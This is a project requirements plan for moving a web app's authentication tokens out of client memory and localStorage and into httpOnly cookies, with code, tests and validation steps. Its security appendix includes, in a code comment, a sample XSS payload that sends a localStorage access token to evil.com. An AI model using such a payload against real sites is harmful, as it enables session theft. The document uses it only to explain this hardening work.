


# PRP: Security - Auth httpOnly-Only Migration

> **Priority**: P0 (CRITICAL SECURITY) | **Estimate**: 4 hours | **Sprint**: Security Debt
> **Created**: 2026-02-17 | **Status**: Draft | **Confidence Score**: 9/10

---

## 1. Overview

### 1.1 Summary

Remove ALL authentication tokens from client-side memory and localStorage. The frontend should NEVER store `accessToken` or `refreshToken` - only maintain `user` data and `isAuthenticated` boolean. All token management is handled exclusively by httpOnly cookies on the backend.

**Current Security Vulnerability (XSS)**:

```typescript
// ❌ VULNERABLE - Tokens accessible via XSS
interface AuthState {
  accessToken: string | null; // Attacker can read this
  refreshTokenValue: string | null; // Attacker can read this
}
```

**Target Secure State**:

```typescript
// ✅ SECURE - No tokens in memory
interface AuthState {
  user: User | null; // Non-sensitive user data only
  isAuthenticated: boolean; // Auth status flag
  // NO TOKENS - handled by httpOnly cookies
}
```

### 1.2 Dependencies

- [x] Backend already sets httpOnly cookies (verify in auth_router.py)
- [x] server-check.ts already implements correct pattern
- [x] localStorage v2 migration already removes tokens from persist (previous commit)

### 1.3 Links

- Related Issue: Security Debt - Tokens in localStorage/memory
- Reference Implementation: `apps/web/src/lib/auth/server-check.ts` ✅
- Auth Store: `apps/web/src/stores/authStore.ts` ❌ (vulnerable)
- Auth API: `apps/web/src/lib/api/authApi.ts` ❌ (returns tokens)
- Backend Router: `apps/api/src/prosell/infrastructure/api/routers/auth_router.py`

---

## 2. Requirements

### 2.1 User Stories

#### US-SEC-001: Remove tokens from client memory

**As a** Security-conscious developer
**I want** Auth store to NOT contain access/refresh tokens
**So that** XSS attacks cannot steal user credentials

**Acceptance Criteria**:

```gherkin
Scenario: Auth store has no token fields
  GIVEN authStore interface definition
  WHEN I inspect AuthState type
  THEN it should NOT contain accessToken field
  AND it should NOT contain refreshTokenValue field
  AND it should contain user: User | null
  AND it should contain isAuthenticated: boolean

Scenario: Login action does not store tokens
  GIVEN user submits login form
  WHEN login API returns with tokens
  THEN store should only save user data
  AND store should set isAuthenticated to true
  AND store should NOT save tokens in memory
```

#### US-SEC-002: Backend handles httpOnly cookies correctly

**As a** Backend developer
**I want** Login/Register endpoints to set httpOnly cookies
**So that** frontend never receives tokens in response body

**Acceptance Criteria**:

```gherkin
Scenario: Login endpoint sets cookies
  GIVEN POST /api/auth/login request with valid credentials
  WHEN backend processes login
  THEN response should include Set-Cookie headers for access_token
  AND response should include Set-Cookie headers for refresh_token
  AND response body should only contain user data (no tokens)
  AND cookies should have httpOnly flag
  AND cookies should have Secure flag
  AND cookies should have SameSite=Strict
```

#### US-SEC-003: Auth API client does not expose tokens

**As a** Frontend developer
**I want** authApi.login() to not return tokens in response
**So that** client code cannot accidentally store them

**Acceptance Criteria**:

```gherkin
Scenario: Login API response shape
  GIVEN authApi.login() call succeeds
  WHEN response is returned
  THEN response.user should contain user data
  AND response.tokens should be undefined OR removed
  AND response should not expose access_token
  AND response should not expose refresh_token
```

### 2.2 Functional Requirements

- [ ] FR-SEC-001 Remove `accessToken` and `refreshTokenValue` from AuthState interface
- [ ] FR-SEC-002 Remove `refreshToken()` action from authStore (use cookies instead)
- [ ] FR-SEC-003 Update `login()` action to NOT store tokens
- [ ] FR-SEC-004 Update `register()` action to NOT store tokens
- [ ] FR-SEC-005 Update `initializeAuth()` to use server-check pattern
- [ ] FR-SEC-006 Remove `tokens` property from authApi LoginResponse interface
- [ ] FR-SEC-007 Backend auth_router.py should NOT return tokens in response body
- [ ] FR-SEC-008 Backend should set httpOnly cookies for all auth operations
- [ ] FR-SEC-009 Update all tests to work without client-side tokens
- [ ] FR-SEC-010 Update authStore localStorage migrate v2→v3 (cleanup any old token data)

### 2.3 Non-Functional Requirements

- **Security**: NO tokens in client memory or localStorage (XSS protection)
- **Performance**: Auth checks should use server-check.ts cached pattern
- **Compatibility**: Existing login/register flows should continue working
- **Testing**: All 316 frontend tests must pass after migration

---

## 3. Technical Context

### 3.1 Tech Stack

| Component | Technology | Version | Notes                                             |
| --------- | ---------- | ------- | ------------------------------------------------- |
| Backend   | FastAPI    | 0.115+  | httpOnly cookie support via Response.set_cookie() |
| Frontend  | Next.js    | 16.1+   | Server Components + checkAuthServer pattern       |
| Frontend  | React      | 19.2    | Server Components preferred                       |
| State     | Zustand    | 5.x     | persist middleware with localStorage              |
| Cookies   | httpOnly   | -       | Backend sets, browser auto-sends                  |

### 3.2 Key Libraries

```bash
# Python backend cookies
from fastapi import Response
from starlette.responses import JSONResponse

# Frontend server auth
import { cookies } from "next/headers";
import { cache } from "react";

# Zustand persist
import { persist, createJSONStorage } from "zustand/middleware";
```

### 3.3 External Documentation

- **Next.js 16 Auth Patterns**: https://nextjs.org/docs/app/building-your-application/authentication
- **httpOnly Cookies**: https://owasp.org/www-community/attacks/Cross-site_scripting
- **React Server Components**: https://react.dev/reference/react/use-server
- **Reference Implementation**: `apps/web/src/lib/auth/server-check.ts` (existing correct pattern)

---

## 4. Implementation Blueprint

### 4.1 Architecture Overview

**BEFORE (Insecure - Current State)**:



**AFTER (Secure - Target State)**:



### 4.2 Implementation Steps

#### Step 1: Backend - Verify httpOnly Cookies (CRITICAL)

**Files to modify**:

- `apps/api/src/prosell/infrastructure/api/routers/auth_router.py`

**Implementation notes**:

```python
# Verify Login endpoint sets cookies correctly
@router.post("/login")
async def login(
    request: LoginRequest,
    response: Response,
    use_case: Annotated[LoginUserUseCase, Depends(get_login_user_use_case)],
) -> LoginUserResponse:
    # ... existing logic ...

    # ✅ Set httpOnly cookies
    response.set_cookie(
        key="access_token",
        value=result.tokens.access_token,
        httponly=True,  # CRITICAL: Prevents XSS access
        secure=True,    # HTTPS only
        samesite="strict",  # CSRF protection
        max_age=900,    # 15 minutes
    )

    response.set_cookie(
        key="refresh_token",
        value=result.tokens.refresh_token,
        httponly=True,
        secure=True,
        samesite="strict",
        max_age=604800,  # 7 days
    )

    # ❌ REMOVE tokens from response body (or keep for backward compat during migration)
    # Target: Return only user data, no tokens
    return LoginUserResponse(
        user=result.user,
        tokens=result.tokens,  # TODO: Remove in final version
    )
```

**Gotchas**:

- Verify ALL auth endpoints (login, register, refresh) set cookies
- Check that cookie flags are correct (httpOnly, Secure, SameSite)
- Frontend cannot read httpOnly cookies (by design!)

---

#### Step 2: Frontend - Update AuthState Interface

**Files to modify**:

- `apps/web/src/stores/authStore.ts`

**Implementation notes**:

```typescript
// ❌ BEFORE (vulnerable)
interface AuthState {
  user: User | null;
  accessToken: string | null; // REMOVE
  refreshTokenValue: string | null; // REMOVE
  isAuthenticated: boolean;
  isLoading: boolean;
  error: AuthError | null;

  // Actions
  initializeAuth: () => Promise<void>;
  login: (credentials: LoginCredentials) => Promise<void>;
  register: (data: RegisterData) => Promise<void>;
  logout: () => Promise<void>;
  refreshToken: () => Promise<void>; // REMOVE
  updateUser: (updates: Partial<User>) => void;
  clearError: () => void;
  setLoading: (loading: boolean) => void;
  reset: () => void;
}

// ✅ AFTER (secure)
interface AuthState {
  user: User | null;
  isAuthenticated: boolean;
  isLoading: boolean;
  error: AuthError | null;

  // Actions - NO TOKEN MANAGEMENT
  initializeAuth: () => Promise<void>; // Uses server-check pattern
  login: (credentials: LoginCredentials) => Promise<void>;
  register: (data: RegisterData) => Promise<void>;
  logout: () => Promise<void>;
  updateUser: (updates: Partial<User>) => void;
  clearError: () => void;
  setLoading: (loading: boolean) => void;
  reset: () => void;
}
```

**Gotchas**:

- Remove `refreshToken` action entirely (cookies handle refresh automatically)
- Update all type references in components
- Tests will need updates (remove token assertions)

---

#### Step 3: Frontend - Update Store Implementation

**Files to modify**:

- `apps/web/src/stores/authStore.ts`

**Implementation notes**:

```typescript
export const useAuthStore = create<AuthState>()(
  persist(
    (set, get) => ({
      // Initial state
      user: null,
      isAuthenticated: false,
      isLoading: true,
      error: null,

      // ✅ UPDATED: No longer stores tokens
      login: async (credentials) => {
        set({ isLoading: true, error: null });
        try {
          const response = await authApi.login(
            credentials.email,
            credentials.password,
          );

          // ✅ Store ONLY user data (tokens handled by cookies)
          set({
            user: response.user,
            isAuthenticated: true,
            isLoading: false,
            error: null,
          });
        } catch (error) {
          set({
            error: {
              message:
                error instanceof ApiError ? error.message : "Login failed",
            },
            isLoading: false,
          });
        }
      },

      // ✅ UPDATED: Same pattern as login
      register: async (data) => {
        set({ isLoading: true, error: null });
        try {
          const response = await authApi.register(
            data.email,
            data.password,
            data.first_name,
            data.last_name,
          );

          // ✅ Store ONLY user data
          set({
            user: response.user,
            isAuthenticated: true,
            isLoading: false,
            error: null,
          });
        } catch (error) {
          // ... error handling
        }
      },

      // ❌ REMOVE: refreshToken action
      // refreshToken: async () => { ... },

      // ✅ UPDATED: Uses server-check pattern
      initializeAuth: async () => {
        try {
          // Call /api/auth/state to get user from cookies
          const response = await fetch("/api/auth/state", {
            credentials: "include", // Send cookies
          });

          if (response.ok) {
            const data = await response.json();
            set({
              user: data.user,
              isAuthenticated: data.isAuthenticated,
              isLoading: false,
            });
          } else {
            // Not authenticated
            set({
              user: null,
              isAuthenticated: false,
              isLoading: false,
            });
          }
        } catch (error) {
          logger.error("Failed to initialize auth", error);
          set({
            user: null,
            isAuthenticated: false,
            isLoading: false,
          });
        }
      },

      // logout clears local state (backend clears cookies)
      logout: async () => {
        try {
          await authApi.logout();
        } catch (error) {
          logger.error("Logout API failed", error);
        } finally {
          // Clear local state regardless of API call result
          set({
            user: null,
            isAuthenticated: false,
            error: null,
          });
        }
      },
    }),
    {
      name: "auth-storage",
      storage: createJSONStorage(() => localStorage),

      // ✅ Already done in previous commit (v2)
      partialize: (state) => ({
        user: state.user,
        isAuthenticated: state.isAuthenticated,
      }),

      // ✅ Upgrade to v3 to ensure no token data remains
      version: 3,
      migrate: (persistedState: unknown, version: number) => {
        if (version === 0) {
          // ... existing v0→v1 migration ...
        }

        if (version === 1) {
          // ... existing v1→v2 migration (removed tokens from localStorage) ...
        }

        // Version 2 → 3: Final cleanup (ensure no token fields exist)
        if (version === 2) {
          const oldState = persistedState as Partial<AuthState>;
          return {
            user: oldState.user ?? null,
            isAuthenticated: oldState.isAuthenticated ?? false,
            isLoading: false,
            error: null,
          };
        }

        return persistedState as AuthState;
      },
    },
  ),
);
```

**Gotchas**:

- `initializeAuth` should call `/api/auth/state` endpoint (create if doesn't exist)
- All token references removed from state
- localStorage migration v3 ensures cleanup

---

#### Step 4: Auth API Client - Remove Tokens from Response

**Files to modify**:

- `apps/web/src/lib/api/authApi.ts`

**Implementation notes**:

```typescript
// ❌ BEFORE (returns tokens)
interface LoginResponse {
  user: { ... };
  tokens?: {  // REMOVE THIS
    access_token: string;
    refresh_token: string;
  };
}

// ✅ AFTER (no tokens)
interface LoginResponse {
  user: {
    id: string;
    email: string;
    first_name: string;
    last_name: string;
    role: string;
    is_email_verified: boolean;
    is_2fa_enabled?: boolean;
    organization_id?: string | null;
  };
  // tokens property removed - handled by httpOnly cookies
}

export const authApi = {
  async login(email: string, password: string): Promise<LoginResponse> {
    const response = await fetch(`${API_BASE_URL}/api/auth/login`, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({ email, password }),
      credentials: "include",  // CRITICAL: Send/receive cookies
    });

    const result = await handleResponse<LoginResponse>(response);

    // ✅ Return user data only (tokens in cookies)
    return result;
  },

  // ❌ REMOVE: refreshToken method (no longer needed)
  // async refreshToken(refreshToken: string): Promise<RefreshTokenResponse> { ... }

  // Other methods continue working with credentials: "include"
  async logout(): Promise<void> {
    await fetch(`${API_BASE_URL}/api/auth/logout`, {
      method: "POST",
      credentials: "include",  // Send cookies to clear them
    });
  },
};
```

**Gotchas**:

- `credentials: "include"` is CRITICAL - sends httpOnly cookies automatically
- Backend clears cookies on logout (Set-Cookie with expired date)
- No manual token refresh needed (cookies auto-sent)

---

#### Step 5: Backend - Create /api/auth/state Endpoint

**Files to modify**:

- `apps/api/src/prosell/infrastructure/api/routers/auth_router.py`

**Implementation notes**:

```python
from fastapi import APIRouter, Depends, Cookie
from starlette.requests import Request

@router.get("/state")
async def get_auth_state(
    request: Request,
    access_token: str | None = Cookie(None),
) -> JSONResponse:
    """
    Get current authentication state from httpOnly cookies.

    Server Components use this to check auth status without
    exposing tokens to client-side code.
    """
    if not access_token:
        return JSONResponse({
            "isAuthenticated": False,
            "user": None,
        })

    try:
        # Verify token and get user
        user = await get_current_user(request)  # Uses dependency that reads cookie

        return JSONResponse({
            "isAuthenticated": True,
            "user": {
                "id": str(user.id),
                "email": user.email,
                "first_name": user.first_name,
                "last_name": user.last_name,
                "role": user.role,
                "is_email_verified": user.is_email_verified,
                "is_2fa_enabled": user.is_2fa_enabled,
                "organization_id": str(user.organization_id) if user.organization_id else None,
            },
        })
    except Exception:
        return JSONResponse({
            "isAuthenticated": False,
            "user": None,
        })
```

**Gotchas**:

- This endpoint does NOT return tokens (only user data)
- Uses `Cookie()` dependency to read httpOnly cookie
- Returns null user if token is invalid/missing

---

#### Step 6: Update Tests

**Files to modify**:

- `apps/web/tests/stores/authStore.test.ts`
- All component tests that use authStore

**Implementation notes**:

```typescript
// ❌ BEFORE (tests check tokens)
describe("authStore", () => {
  it("should store tokens on login", async () => {
    const { result } = renderHook(() => useAuthStore());
    await act(async () => {
      await result.current.login({ email, password });
    });
    expect(result.current.accessToken).toBe("fake-token"); // ❌ REMOVE
    expect(result.current.isAuthenticated).toBe(true);
  });
});

// ✅ AFTER (tests check user data)
describe("authStore", () => {
  it("should store user data on login", async () => {
    const { result } = renderHook(() => useAuthStore());
    await act(async () => {
      await result.current.login({ email, password });
    });
    expect(result.current.user).toEqual({
      // ✅ CHECK USER
      id: "1",
      email: "test@example.com",
      // ...
    });
    expect(result.current.isAuthenticated).toBe(true);
    expect(result.current.accessToken).toBeUndefined(); // ✅ VERIFY NO TOKEN
  });

  it("should not expose tokens in state", () => {
    const { result } = renderHook(() => useAuthStore());
    // @ts-expect-error - accessToken should not exist
    expect(result.current.accessToken).toBeUndefined();
    // @ts-expect-error - refreshTokenValue should not exist
    expect(result.current.refreshTokenValue).toBeUndefined();
  });
});
```

**Gotchas**:

- Mock MSW (Mock Service Worker) handlers for /api/auth/state
- Remove all token assertions from tests
- Verify cookies are sent with `credentials: "include"`

---

## 5. Code Patterns & Examples

### 5.1 Server-Side Auth Check Pattern

**Reference**: `apps/web/src/lib/auth/server-check.ts` ✅ (existing correct pattern)

```typescript
// ✅ CORRECT: Read cookies server-side
import { cookies } from "next/headers";
import { cache } from "react";

export const checkAuthServer = cache(async function checkAuthServer() {
  const cookieStore = await cookies();
  const accessToken = cookieStore.get("access_token")?.value;

  return {
    isAuthenticated: Boolean(accessToken),
    userData: accessToken ? await getUserFromToken(accessToken) : null,
  };
});
```

### 5.2 Client Store Pattern (httpOnly-Only)

**Target Implementation**: `apps/web/src/stores/authStore.ts`

```typescript
// ✅ SECURE: No tokens in client memory
interface AuthState {
  user: User | null; // Public data only
  isAuthenticated: boolean; // Status flag
  // NO: accessToken, refreshTokenValue
}

// Login stores ONLY user data
login: async (credentials) => {
  const response = await authApi.login(email, password);
  set({
    user: response.user, // ✅ User data
    isAuthenticated: true, // ✅ Status
    // Tokens handled by httpOnly cookies - NOT in memory
  });
};
```

### 5.3 Backend Cookie Pattern

**Reference**: FastAPI httpOnly cookie setting

```python
# ✅ CORRECT: Set httpOnly cookies
response.set_cookie(
    key="access_token",
    value=token,
    httponly=True,    # Prevents JavaScript access (XSS protection)
    secure=True,      # HTTPS only
    samesite="strict", # CSRF protection
)
```

---

## 6. Validation Gates

### 6.1 Pre-commit Checks

```bash
# Frontend linting
cd apps/web
pnpm lint
pnpm typecheck

# Backend linting
cd apps/api
uv run ruff check .
uv run pyright
```

### 6.2 Unit Tests

```bash
# Frontend tests (316 tests must pass)
cd apps/web
pnpm test

# Backend tests (129 domain tests)
cd apps/api
uv run pytest tests/unit/domain/ -v
```

### 6.3 Integration Tests

```bash
# Backend auth integration tests
cd apps/api
uv run pytest tests/integration/test_auth_api.py -v
```

### 6.4 E2E Tests

```bash
# Playwright auth flows
cd tests/e2e
pnpm test --auth-flow
```

### 6.5 Security Validation

```bash
# ✅ Verify no tokens in client code
cd apps/web/src/stores
grep -n "accessToken" authStore.ts | wc -l  # Should be 0
grep -n "refreshToken" authStore.ts | wc -l  # Should be 0

# ✅ Verify httpOnly cookies in backend
cd apps/api/src/prosell/infrastructure/api/routers
grep -n "httponly=True" auth_router.py | wc -l  # Should be > 0

# ✅ Verify credentials include in fetch
cd apps/web/src/lib/api
grep -n 'credentials: "include"' authApi.ts | wc -l  # Should be > 0
```

---

## 7. Testing Strategy

### 7.1 Unit Tests

- **authStore tests** - Verify no token fields, correct user data storage
- **authApi tests** - Verify credentials: "include" in all requests
- **component tests** - Mock /api/auth/state endpoint

### 7.2 Integration Tests

- **Login flow** - Verify cookies are set correctly
- **Protected routes** - Verify httpOnly cookies are sent automatically
- **Token refresh** - Verify backend handles refresh (not client)

### 7.3 E2E Tests

- **User login** - Full flow from form to authenticated state
- **Page refresh** - Verify user persists via cookies
- **Logout** - Verify cookies are cleared

### 7.4 Coverage Targets

- Frontend tests: All 316 tests passing
- Backend auth tests: All passing
- Security validation: No tokens in client code

---

## 8. Common Pitfalls

### 8.1 Forgetting credentials: "include"

**Problem**: fetch() calls don't send cookies without `credentials: "include"`
**Solution**: Add to ALL authApi fetch calls

```typescript
fetch(url, {
  credentials: "include", // ✅ REQUIRED for httpOnly cookies
});
```

### 8.2 Reading httpOnly cookies in client

**Problem**: `document.cookie` cannot read httpOnly cookies (by design!)
**Solution**: Use `/api/auth/state` endpoint to get user data from cookies

### 8.3 Still returning tokens in backend response

**Problem**: Backend returns tokens in JSON body (XSS vulnerable)
**Solution**: Remove `tokens` from response DTO, only set via Set-Cookie header

### 8.4 Tests still checking tokens

**Problem**: Tests assert that `accessToken` is set after login
**Solution**: Update tests to check `user` and `isAuthenticated` only

---

## 9. Rollback Plan

If implementation fails:

1. Revert authStore.ts to previous version (v2 with tokens in state)
2. Revert authApi.ts to return tokens in response
3. Keep localStorage v2 migration (no harm done)
4. Document rollback reason and create follow-up PRP

**Rollback command**:

```bash
git revert <commit-hash>
git push
```

---

## 10. Completion Checklist

- [ ] AuthState interface has NO accessToken field
- [ ] AuthState interface has NO refreshTokenValue field
- [ ] AuthState interface has NO refreshToken() action
- [ ] authStore.login() does NOT store tokens
- [ ] authStore.register() does NOT store tokens
- [ ] authStore.initializeAuth() uses /api/auth/state endpoint
- [ ] authApi.LoginResponse has NO tokens property
- [ ] authApi.login() has credentials: "include"
- [ ] Backend /api/auth/login sets httpOnly cookies
- [ ] Backend /api/auth/state endpoint exists
- [ ] localStorage migration v3 removes any old token data
- [ ] All 316 frontend tests passing
- [ ] Security validation: grep shows 0 tokens in client code
- [ ] GGA code review passes (no security violations)
- [ ] E2E auth flow tests passing

---

## Confidence Score

**Score**: 9/10

**Reasoning**:

**Positive factors**:

- ✅ Reference implementation exists (`server-check.ts`)
- ✅ Pattern is well-established (httpOnly cookies)
- ✅ localStorage v2 migration already done (partial fix)
- ✅ Backend already uses cookies (just need verification)
- ✅ Clear separation of concerns (backend owns cookies)
- ✅ Tests are comprehensive (316 frontend tests)

**Risk factors**:

- ⚠️ Many files changed (authStore, authApi, tests, components)
- ⚠️ Breaking change to AuthState interface (affects all components)
- ⚠️ E2E tests may need updates
- ⚠️ MSW mocks need /api/auth/state endpoint

**Why not 10/10**:

- Significant interface changes to AuthState
- Potential for regressions in auth flow
- Requires coordination between backend and frontend changes

**Mitigation**:

- Incremental implementation (verify backend first)
- Comprehensive test coverage
- Security validation gates
- Clear rollback plan

---

## Appendix: Security Context

### Why httpOnly Cookies?

**XSS Vulnerability with localStorage/memory**:

```javascript
// ❌ VULNERABLE
const token = localStorage.getItem("access_token");
// Attacker can read this via XSS:
// <script>fetch('https://evil.com/steal?token=' + localStorage.getItem('access_token'))</script>
```

**httpOnly Cookies Protection**:

```javascript
// ✅ SECURE
// Client-side JavaScript CANNOT read httpOnly cookies
// Even XSS attacks cannot access them:
// <script>console.log(document.cookie)</script>  // Does NOT show httpOnly cookies
```

### References

- OWASP XSS Prevention: https://owasp.org/www-community/attacks/xss/
- httpOnly Cookies: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- Next.js Auth Patterns: https://nextjs.org/docs/app/building-your-application/authentication

---

**End of PRP** ✅
